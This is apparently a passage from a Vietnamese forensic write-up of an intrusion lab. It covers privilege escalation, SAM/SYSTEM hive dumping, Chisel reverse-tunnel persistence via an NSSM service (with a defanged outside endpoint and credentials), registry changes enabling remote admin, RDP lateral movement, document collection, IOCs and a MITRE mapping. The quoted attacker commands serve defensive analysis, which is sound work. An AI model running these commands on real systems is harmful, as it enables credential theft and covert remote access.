Lúc 13:05:35.145, RoguePlanetV2.exe được khởi chạy từ Desktop của omar.hassan trên WKSTN-04. Tiến trình ban đầu chạy dưới tài khoản MAROMALIX\omar.hassan, với Explorer là tiến trình cha. Đến 13:07:50.669, log ghi nhận cmd.exe dưới tài khoản NT AUTHORITY\SYSTEM, với conhost.exe là tiến trình cha (Hình 16).

```text
13:05:35.145
Image: C:\Users\omar.hassan\Desktop\RoguePlanetV2.exe
CommandLine: "C:\Users\omar.hassan\Desktop\RoguePlanetV2.exe"
Tài khoản: MAROMALIX\omar.hassan
ParentImage: C:\Windows\Explorer.EXE

13:07:50.669
Image: C:\Windows\System32\cmd.exe
CommandLine: C:\Windows\system32\cmd.exe
Tài khoản: NT AUTHORITY\SYSTEM
ParentCommandLine: "C:\Windows\System32\conhost.exe"
```

Theo diễn biến lab, lần khai thác bằng V2 đã thành công. Bằng chứng về quyền đạt được là cmd.exe chạy dưới SYSTEM, tạo điểm chuyển từ tài khoản người dùng sang các thao tác có quyền cao trên WKSTN-04 (Hình 16).



Hình 16: RoguePlanetV2.exe chạy dưới omar.hassan, sau đó xuất hiện SYSTEM shell và lệnh xuất SAM trên WKSTN-04.

## Credential Access

### Xuất SAM và SYSTEM từ SYSTEM shell

Chưa đầy một phút sau khi có SYSTEM shell, lúc 13:08:32.710, reg.exe được gọi từ cmd.exe để lưu hive SAM vào tệp sam.hive. Đến 13:09:38.850, lệnh tiếp theo yêu cầu lưu hive SYSTEM vào sys.hive. Cả hai lệnh đều chạy dưới tài khoản NT AUTHORITY\SYSTEM, với tệp đầu ra trong thư mục người dùng omar.hassan (Hình 17).

```cmd
reg save HKLM\SAM C:\Users\omar.hassan\sam.hive
reg save HKLM\SYSTEM C:\Users\omar.hassan\sys.hive
```



Hình 17: Hai lệnh reg save yêu cầu xuất hive SAM và SYSTEM dưới quyền SYSTEM.

SAM lưu thông tin tài khoản cục bộ và password hashes. Việc lấy cặp hive SAM và SYSTEM phục vụ xử lý dữ liệu xác thực ngoại tuyến, phù hợp với kỹ thuật [OS Credential Dumping: Security Account Manager](https://attack.mitre.org/techniques/T1003/002/). Đây là bước chuyển từ nâng quyền sang tìm thêm credentials trên WKSTN-04 (Hình 16–17).

## Persistence

### Đưa Chisel vào service AWSLiteAgent

Sau các lệnh xuất hive, threat actor tiếp tục dùng SYSTEM shell để gọi NSSM và cấu hình Chisel thành service mang tên AWSLiteAgent (Hình 18). [NSSM](https://nssm.cc/commands) quản lý ứng dụng dưới dạng Windows service; cơ chế này có thể giúp duy trì thực thi sau khi máy khởi động lại.

Threat actor lần lượt gọi NSSM để dừng AWSLiteAgent lúc 13:11:58.116, xóa service lúc 13:13:30.911 rồi cài lại lúc 13:13:52.800. Trong lệnh install, chương trình đích được chỉ định là chisel.exe (Hình 18).

```text
C:\Users\omar.hassan\Desktop\nssm.exe
```

```cmd
.\nssm stop AWSLiteAgent
.\nssm remove AWSLiteAgent confirm
.\nssm install AWSLiteAgent .\chisel.exe
```

Lúc 13:15:17.462, AppParameters được đặt thành cấu hình Chisel client, dùng lại endpoint HTTPS và reverse port forwarding đã xuất hiện trước đó. Đến 13:15:26.939, lệnh tiếp theo đặt Start thành SERVICE_AUTO_START, yêu cầu service tự khởi động khi máy boot (Hình 18).

```cmd
.\nssm set AWSLiteAgent AppParameters "client --keepalive 30s --max-retry-count -1 --max-retry-interval 1m --auth "svc_chisel_mgmt:TempTunnelPermit8443#" hxxps://phantom-pipe-v49[.]sphinky[.]workers[.]dev R:127.0.0.1:13389:127.0.0.1:3389"
.\nssm set AWSLiteAgent Start SERVICE_AUTO_START
```



Hình 18: Các lệnh NSSM cấu hình AWSLiteAgent để chạy Chisel với reverse port forwarding và chế độ tự khởi động.

Tôi đánh giá cấu hình service nhằm duy trì đường truy cập RDP qua Chisel sau khi hệ thống khởi động lại. Các lệnh trong ảnh thể hiện bước thiết lập Persistence, chưa ghi nhận trạng thái hoạt động thực tế của service (Hình 18).

## Defense Evasion

### Điều chỉnh quyền truy cập từ xa trên WKSTN-01

Hoạt động tiếp tục quay lại WKSTN-01 với tài khoản local Administrator. Lúc 13:17:40.352, reg.exe được gọi để đặt LocalAccountTokenFilterPolicy thành 1. Đến 13:17:45.090, cmd.exe gọi lệnh đặt DisableRestrictedAdmin thành 0; reg.exe tương ứng xuất hiện lúc 13:17:45.181 (Hình 19).

```cmd
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
reg add HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f
```

Hai thay đổi thực hiện Modify Registry, điều chỉnh cấu hình Windows để phục vụ thao tác tiếp theo. LocalAccountTokenFilterPolicy=1 tắt token filtering áp dụng cho local administrator khi quản trị qua network, theo [tài liệu UAC remote restrictions](https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction). DisableRestrictedAdmin=0 cho phép máy đích hỗ trợ Restricted Admin cho RDP, theo [tài liệu Microsoft](https://learn.microsoft.com/en-us/windows/security/identity-protection/remote-credential-guard#enable-delegation-of-nonexportable-credentials-on-the-remote-hosts).



Hình 19: Tài khoản WKSTN-01\Administrator gọi các lệnh thay đổi token filtering và hỗ trợ Restricted Admin.

### Lặp lại cấu hình trên WKSTN-03

Cùng cặp thay đổi xuất hiện trên WKSTN-03 dưới tài khoản local Administrator. Lệnh đặt LocalAccountTokenFilterPolicy=1 được gọi lúc 13:26:33.082, tiếp theo là reg.exe lúc 13:26:33.174. Lệnh đặt DisableRestrictedAdmin=0 được gọi lúc 13:26:36.849, với reg.exe tương ứng lúc 13:26:36.928 (Hình 20).

```cmd
cmd.exe /Q /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f 1> \\127.0.0.1\ADMIN$\__1782048385.8147292 2>&1
cmd.exe /Q /c reg add HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f 1> \\127.0.0.1\ADMIN$\__1782048385.8147292 2>&1
```

CommandLine chuyển stdout vào tệp qua ADMIN$ trên địa chỉ loopback và gộp stderr bằng 2>&1. Việc lặp lại cùng cấu hình trên hai máy cho thấy threat actor đang chuẩn bị các điều kiện truy cập từ xa tương tự nhau (Hình 19–20).



Hình 20: Các lệnh Registry được lặp lại dưới tài khoản WKSTN-03\Administrator, với đầu ra chuyển vào tệp qua ADMIN$.

## Lateral Movement

### Tiếp tục RDP bằng Administrator

Các bản ghi đăng nhập xuất hiện ngay sau thay đổi Registry trên từng máy: Administrator trên WKSTN-01.maromalix.corp lúc 13:18:03.352 và trên WKSTN-03.maromalix.corp lúc 13:26:57.269, cùng giá trị 10 (Hình 21). Trong [tài liệu Microsoft về logon types](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/auditing/event-4624#logon-types-and-descriptions), Logon Type 10 là RemoteInteractive, tương ứng với truy cập qua Terminal Services hoặc Remote Desktop.



Hình 21: Các bản ghi Administrator với giá trị 10 trên WKSTN-01 và WKSTN-03 sau những thay đổi Registry tương ứng.

Tôi đánh giá threat actor tiếp tục di chuyển qua RDP bằng tài khoản Administrator sau khi điều chỉnh cấu hình truy cập. Các ảnh không thể hiện nguồn kết nối hoặc phương thức xác thực, nên không dùng chúng để khẳng định credentials này được lấy từ lần xuất SAM trước đó (Hình 17, 19–21).

## Collection

### Lần theo các tài liệu đã được truy cập

Theo diễn biến lab, sau khi leo thang trên các workstation, threat actor truy cập nhiều tài liệu nội bộ. Để lần theo hoạt động này, tôi dùng **LECmd.exe** phân tích các tệp LNK liên quan đến recent documents. Trường Local Path trong kết quả cho thấy 20 đường dẫn target thuộc ba profile, tập trung vào tài chính, đánh giá đối tác và dự án FIFA (Hình 22–24).

### Tài liệu tài chính trong profile omar.hassan

Bảy đường dẫn dưới profile omar.hassan gồm các báo cáo ngân sách, chi phí và tài liệu thuộc FIFA_Account. Trong đó, tên bốn tệp của dự án FIFA gợi nội dung về tổng hợp tài khoản, so sánh vendor, chi phí dự thầu và rà soát proposal (Hình 22).

```text
C:\Users\omar.hassan\Documents\Finance\Analysis\Variance_Reports\Budget_vs_Actual_2024.xlsx
C:\Users\omar.hassan\Documents\Finance\Analysis\Variance_Reports\Budget_vs_Actual_2025.xlsx
C:\Users\omar.hassan\Documents\Finance\Expenses\Q1_2025\Expense_Report_Q1_2025.xlsx
C:\Users\omar.hassan\Documents\Finance\Projects\FIFA_Account\Account_Summary_FIFA_Q1_2025.pdf
C:\Users\omar.hassan\Documents\Finance\Projects\FIFA_Account\bid_comparison_vendors_2025.xlsx
C:\Users\omar.hassan\Documents\Finance\Projects\FIFA_Account\bid_related_expenses_Q1_2025.xlsx
C:\Users\omar.hassan\Documents\Finance\Projects\FIFA_Account\proposal_review_template_v1.docx
```



Hình 22: Các target trong kết quả LECmd của profile omar.hassan, gồm tài liệu tài chính và dự án FIFA_Account.

### Đánh giá partnership và chiến lược trong profile nour.khalil

Chín đường dẫn dưới profile nour.khalil mở rộng phạm vi sang hợp đồng, đánh giá partnership và kế hoạch dự thầu. Các tên bid_evaluation_matrix_v2.xlsx, proposal_comparison_partners_2025.docx và bid_strategy_overview_2026.docx gợi nhóm tài liệu có liên quan trực tiếp đến việc xây dựng và đánh giá proposal (Hình 23).

```text
C:\Users\nour.khalil\Desktop\Active_Contracts_Summary.xlsx
C:\Users\nour.khalil\Documents\Finance\Projects\FIFA_Partnership\bid_evaluation_matrix_v2.xlsx
C:\Users\nour.khalil\Documents\Finance\Projects\FIFA_Partnership\Partnership_Risk_Notes.docx
C:\Users\nour.khalil\Documents\Finance\Projects\FIFA_Partnership\proposal_assessment_board_memo.pdf
C:\Users\nour.khalil\Documents\Finance\Projects\FIFA_Partnership\proposal_comparison_partners_2025.docx
C:\Users\nour.khalil\Documents\Finance\Strategic_Planning\2026\bid_strategy_overview_2026.docx
C:\Users\nour.khalil\Documents\Finance\Strategic_Planning\2026\Partnership_Growth_Plan_2026.xlsx
C:\Users\nour.khalil\Documents\Finance\Vendor_Contracts\Pending_Review\Legal_Notes_Pending_Contracts.docx
C:\Users\nour.khalil\Documents\Finance\Vendor_Contracts\Pending_Review\Review_Checklist_Vendor_Assessment.docx
```



Hình 23: Các target dưới profile nour.khalil liên quan đến hợp đồng, partnership và chiến lược dự thầu.

### Hồ sơ FIFA trong profile dina.ramadan

Bốn đường dẫn còn lại nằm dưới profile dina.ramadan. Các tên tệp gợi tài liệu về lịch sử dự thầu, phương pháp kỹ thuật và trao đổi với vendor. Hai tệp thuộc Vendor_Comms, còn Technical_Methodology_Overview.docx nằm trong Submissions của dự án FIFA (Hình 24).

```text
C:\Users\dina.ramadan\Documents\Finance\Partnerships\2026\Clients\bid_history_archive_2024.xlsx
C:\Users\dina.ramadan\Documents\Projects\2026\Partnerships\FIFA\Submissions\Technical_Methodology_Overview.docx
C:\Users\dina.ramadan\Documents\Projects\2026\Partnerships\FIFA\Vendor_Comms\Comms_Log_FIFA_Project_2025.docx
C:\Users\dina.ramadan\Documents\Projects\2026\Partnerships\FIFA\Vendor_Comms\Vendor_Response_Summary_FIFA.xlsx
```



Hình 24: Các target dưới profile dina.ramadan liên quan đến hồ sơ dự thầu và trao đổi với vendor trong dự án FIFA.

Tôi đánh giá tập đường dẫn này phù hợp với việc tìm kiếm thông tin phục vụ hồ sơ dự thầu và partnership FIFA trên nhiều profile. Bằng chứng LNK giúp khoanh vùng tài liệu liên quan, nhưng chưa xác định tệp cuối cùng bị chọn, nội dung thực tế được đọc hay dữ liệu đã được sao chép và exfiltration (Hình 22–24).

Các nhóm LNK chưa được gán hostname và chưa có timestamp đầy đủ để ghép với từng phiên đăng nhập. Vì vậy, danh sách trên được trình bày theo profile trong đường dẫn target, không suy ra máy đích hoặc tài khoản đã mở tệp chỉ từ đường dẫn đó.

## Dòng thời gian

Các mốc dưới đây thuộc ngày **21/06/2026**, giữ nguyên thời gian hiển thị trong bằng chứng. Múi giờ nguồn chưa được xác định; tôi không quy đổi sang UTC hoặc giờ địa phương. Các dòng tổng hợp theo khoảng thời gian không biểu thị thời lượng phiên đăng nhập hay thời gian hoạt động liên tục của công cụ.

| Thời gian hiển thị | Host hoặc phạm vi | Diễn biến | Bằng chứng |
| --- | --- | --- | --- |
| 11:42:11.436–11:42:11.592 | WKSTN-01 | Dấu vết Microsoft Edge ghi tệp Fan ID và Zone.Identifier trong Downloads. | Hình 1 |
| 11:42:22.509 | WKSTN-01 | Executable được khởi chạy từ Explorer. | Hình 4 |
| 11:43:38.634; 11:43:57.295 | WKSTN-01 | Gọi whoami và whoami /all qua cmd.exe. | Hình 4 |
| 11:44:07.869 | WKSTN-01 | Tìm tên tệp chứa password hoặc cred. | Hình 5 |
| 11:44:20.957–11:44:48.677 | WKSTN-01 | Truy vấn phần mềm, tìm chuỗi browser và rà soát tiến trình trình duyệt. | Hình 5–6 |
| 11:45:43.556 | WKSTN-01 | Khởi chạy EdgeSavedPasswordsDumper.exe. | Hình 6 |
| 12:10:58.447 | WKSTN-01 | Khởi chạy Chisel với endpoint HTTPS và reverse port forwarding. | Hình 8 |
| 12:18:34.659–12:18:54.015 | WKSTN-01 | Gọi taskkill rồi chạy lại Chisel với endpoint IP, port 8443. | Hình 8–9 |
| 12:22:15.091 | WKSTN-01 | Khởi chạy Taskmgr.exe. | Hình 9 |
| 12:22:28–12:22:48 | Artifact thay đổi tệp | Ghi nhận tạo và thay đổi msedge.DMP trong Temp. | Hình 10 |
| 12:23:04; 12:23:17 | Artifact thay đổi tệp | Đổi tên msedge.DMP thành Bookmarks rồi chuyển khỏi Temp. | Hình 10 |
| 12:24:31.118–12:25:06.145 | WKSTN-01 | Mở PowerShell, chạy strings.exe và chỉ định Bookmarks làm đầu vào. | Hình 9, 11 |
| 12:28:16.981–12:28:18.229 | WKSTN-01 | Chạy RoguePlanet.exe và nạp MpClient.dll; lần khai thác không thành công theo bối cảnh lab. | Hình 11–12 |
| 12:48:00.461 | WKSTN-01 | Chạy Chisel với reverse SOCKS trên port 13450 phía server, endpoint IP port 8443. | Hình 14 |
| 12:51:10.031 | WKSTN-02 | Bản ghi TargetUserName omar.hassan trong diễn biến RDP được cung cấp. | Hình 15 |
| 12:51:24.580 | WKSTN-03 | Bản ghi TargetUserName omar.hassan. | Hình 15 |
| 12:58:50.026 | WKSTN-04 | Bản ghi TargetUserName omar.hassan trước lần chạy V2. | Hình 15 |
| 13:05:35.145 | WKSTN-04 | Chạy RoguePlanetV2.exe dưới MAROMALIX\omar.hassan. | Hình 16 |
| 13:07:50.669 | WKSTN-04 | Ghi nhận cmd.exe dưới NT AUTHORITY\SYSTEM. | Hình 16 |
| 13:08:32.710 | WKSTN-04 | Gọi lệnh xuất hive SAM. | Hình 17 |
| 13:09:38.850 | WKSTN-04 | Gọi lệnh xuất hive SYSTEM. | Hình 17 |
| 13:11:58.116–13:15:26.939 | Chuỗi tiến trình SYSTEM tiếp theo | Gọi NSSM để cấu hình AWSLiteAgent chạy Chisel và đặt SERVICE_AUTO_START. | Hình 18 |
| 13:17:40.352–13:17:45.181 | WKSTN-01 | Thay đổi LocalAccountTokenFilterPolicy và DisableRestrictedAdmin. | Hình 19 |
| 13:18:03.352 | WKSTN-01 | Bản ghi Administrator với giá trị 10, phù hợp RemoteInteractive. | Hình 21 |
| 13:26:33.082–13:26:36.928 | WKSTN-03 | Lặp lại hai thay đổi Registry. | Hình 20 |
| 13:26:57.269 | WKSTN-03 | Bản ghi Administrator với giá trị 10, phù hợp RemoteInteractive. | Hình 21 |
| Chưa xác định timestamp đầy đủ | Các profile omar.hassan, nour.khalil, dina.ramadan | LNK trỏ đến 20 tài liệu tài chính và dự án FIFA; chưa có mapping hostname cho từng nhóm. | Hình 22–24 |


## Chỉ báo xâm phạm (IOC)

### Atomic

Các chỉ báo dưới đây được trích từ bằng chứng của lab. Domain và IP trong cấu hình không tự chứng minh kết nối đã được thiết lập thành công.

| Chỉ báo | Vai trò quan sát được | Bằng chứng |
| --- | --- | --- |
| fifa[.]tax | Domain trong tab_url của bản ghi tải executable Fan ID. | Hình 2 |
| 18[.]199[.]178[.]251 | IP trong HostUrl và endpoint Chisel trên port 8443, gồm lần chạy reverse SOCKS. | Hình 1, 9, 14 |
| phantom-pipe-v49[.]sphinky[.]workers[.]dev | Endpoint HTTPS trong cấu hình Chisel, gồm cả AppParameters của service. | Hình 8, 18 |

Các URL xuất hiện trong bằng chứng:

```text
hxxp://fifa[.]tax/FIFA2026_FanID_Verifier_v2.1.exe
hxxp://18[.]199[.]178[.]251/FIFA2026_FanID_Verifier_v2.1.exe
hxxps://phantom-pipe-v49[.]sphinky[.]workers[.]dev
hxxp://18[.]199[.]178[.]251:8443
```

### Behavioral

| Dấu vết | Ý nghĩa trong vụ việc | Bằng chứng |
| --- | --- | --- |
| Executable Fan ID tạo cmd.exe, rà soát tài khoản và trình duyệt rồi chạy EdgeSavedPasswordsDumper.exe | Chuỗi thực thi và tìm dữ liệu xác thực trên workstation ban đầu. | Hình 4–6 |
| Chisel client với remote specification R:127.0.0.1:13389:127.0.0.1:3389 | Cấu hình reverse port forwarding hướng về port RDP trên client. | Hình 8–9 |
| Chisel client với remote specification R:13450:socks | Cấu hình reverse SOCKS trên port 13450 phía server, chuyển kết nối qua client. | Hình 14 |
| msedge.DMP đổi tên thành Bookmarks, tiếp theo có strings.exe với -n 8 | Dấu vết nghi liên quan đến xử lý memory dump của trình duyệt. | Hình 10–11 |
| RoguePlanetV2.exe, SYSTEM shell và các lệnh reg save | Chuỗi nâng quyền và tiếp cận hive xác thực trên WKSTN-04. | Hình 16–17 |
| AWSLiteAgent, NSSM, AppParameters chứa cấu hình Chisel, SERVICE_AUTO_START | Cấu hình Persistence bằng service. | Hình 18 |
| LocalAccountTokenFilterPolicy=1 và DisableRestrictedAdmin=0 | Điều chỉnh cấu hình truy cập từ xa trên hai workstation. | Hình 19–20 |

Các đường dẫn artifact.

```text
C:\Users\omar.hassan\Downloads\FIFA2026_FanID_Verifier_v2.1.exe
C:\Users\omar.hassan\Downloads\EdgeSavedPasswordsDumper.exe
C:\Users\omar.hassan\Downloads\chisel.exe
C:\Users\omar.hassan\Downloads\RoguePlanet.exe
C:\Users\omar.hassan\Desktop\RoguePlanetV2.exe
C:\Users\omar.hassan\Desktop\nssm.exe
C:\Users\omar.hassan\AppData\Local\Microsoft\Edge\User Data\Default\strings.exe
C:\Users\omar.hassan\sam.hive
C:\Users\omar.hassan\sys.hive
```

Tên công cụ hợp pháp, tên tệp hoặc giá trị Registry riêng lẻ cần được đối chiếu với tài khoản, tiến trình cha và chuỗi thời gian. Chúng được dùng ở đây để mô tả hành vi trong lab, không phải chữ ký độc hại áp dụng cho mọi môi trường.

### Network

Các hướng phát hiện sau được đề xuất từ endpoint và tham số quan sát được; chưa có PCAP hoặc network log để kiểm thử.

| Điều kiện theo dõi | Mục đích đối chiếu | Căn cứ |
| --- | --- | --- |
| DNS, proxy hoặc dữ liệu TLS có thể quan sát domain fifa[.]tax hoặc endpoint workers.dev cụ thể trong IOC | Tìm truy cập tới hạ tầng tải tệp và endpoint tunnel đã ghi nhận trong cấu hình. Không cảnh báo toàn bộ workers.dev chỉ vì dùng chung nền tảng. | Hình 2, 8, 18 |
| Kết nối đến 18[.]199[.]178[.]251, đặc biệt HTTP trên port 8443 | Đối chiếu lượt tải ban đầu, reverse port forwarding và reverse SOCKS. Port 13450 thuộc cấu hình proxy phía server, không mặc định là port lắng nghe trên workstation. | Hình 1, 9, 14 |
| RDP đến WKSTN-01/WKSTN-03 gần các mốc thay đổi Registry | Bổ sung source IP, tài khoản và thời điểm cho các bản ghi RemoteInteractive. | Hình 19–21 |

### 
## MITRE ATT&CK

Bảng dưới đây ánh xạ hành vi với các technique đã đối chiếu trên MITRE ATT&CK. Cột trạng thái phân biệt lệnh hoặc artifact quan sát được với mục tiêu được đánh giá; không gán thêm Phishing delivery, Pass-the-Hash hoặc Exfiltration khi chưa có bằng chứng tương ứng.

| Tactic | Technique – ID | Ánh xạ trong lab và trạng thái | Bằng chứng |
| --- | --- | --- | --- |
| Execution | [Command and Scripting Interpreter: Windows Command Shell — T1059.003](https://attack.mitre.org/techniques/T1059/003/) | Quan sát cmd.exe gọi tiện ích hệ thống và các lệnh tiếp theo. | Hình 4–6, 17–20 |
| Execution | [Command and Scripting Interpreter: PowerShell — T1059.001](https://attack.mitre.org/techniques/T1059/001/) | Quan sát PowerShell được mở và gọi strings.exe. | Hình 9, 11 |
| Discovery | [System Owner/User Discovery — T1033](https://attack.mitre.org/techniques/T1033/) | Quan sát whoami và whoami /all. | Hình 4 |
| Discovery | [File and Directory Discovery — T1083](https://attack.mitre.org/techniques/T1083/) | Quan sát lệnh dir tìm tên tệp chứa password hoặc cred. | Hình 5 |
| Discovery | [Software Discovery — T1518](https://attack.mitre.org/techniques/T1518/) | Quan sát truy vấn Registry về browser và lệnh WMIC lấy tên, phiên bản phần mềm. | Hình 5 |
| Discovery | [Process Discovery — T1057](https://attack.mitre.org/techniques/T1057/) | Quan sát tasklist kết hợp findstr để tìm trình duyệt. | Hình 6 |
| Credential Access | [Credentials from Password Stores: Credentials from Web Browsers — T1555.003](https://attack.mitre.org/techniques/T1555/003/) | Đánh giá mục tiêu từ chuỗi rà soát trình duyệt và chạy EdgeSavedPasswordsDumper.exe; chưa có đầu ra credentials. | Hình 5–7 |
| Command and Control | [Protocol Tunneling — T1572](https://attack.mitre.org/techniques/T1572/) | Quan sát lệnh cấu hình Chisel reverse port forwarding và reverse SOCKS; chưa xác nhận lưu lượng thực tế qua network telemetry. | Hình 8–9, 14, 18 |
| Privilege Escalation | [Exploitation for Privilege Escalation — T1068](https://attack.mitre.org/techniques/T1068/) | RoguePlanet thất bại trên WKSTN-01; lần chạy V2 trên WKSTN-04 thành công theo lab, với SYSTEM shell được ghi nhận. | Hình 11–16 |
| Lateral Movement | [Remote Services: Remote Desktop Protocol — T1021.001](https://attack.mitre.org/techniques/T1021/001/) | RDP bằng omar.hassan theo bối cảnh lab; có các bản ghi Administrator phù hợp RemoteInteractive sau đó. | Hình 15, 21 |
| Lateral Movement | [Valid Accounts: Local Accounts — T1078.003](https://attack.mitre.org/techniques/T1078/003/) | Quan sát sử dụng local Administrator trên WKSTN-01 và WKSTN-03. | Hình 19–21 |
| Credential Access | [OS Credential Dumping: Security Account Manager — T1003.002](https://attack.mitre.org/techniques/T1003/002/) | Quan sát các lệnh xuất SAM/SYSTEM dưới SYSTEM; chưa có kết quả xử lý hashes. | Hình 17 |
| Persistence | [Create or Modify System Process: Windows Service — T1543.003](https://attack.mitre.org/techniques/T1543/003/) | Quan sát các lệnh cấu hình AWSLiteAgent chạy Chisel và tự khởi động. | Hình 18 |
| Defense Evasion | [Modify Registry — T1112](https://attack.mitre.org/techniques/T1112/) | Quan sát thay đổi hai giá trị phục vụ truy cập từ xa. | Hình 19–20 |
| Collection | [Data from Local System — T1005](https://attack.mitre.org/techniques/T1005/) | Đánh giá hướng thu thập từ tài liệu đã truy cập trong lab và các target LNK; chưa chứng minh sao chép hoặc exfiltration. | Hình 22–24 |
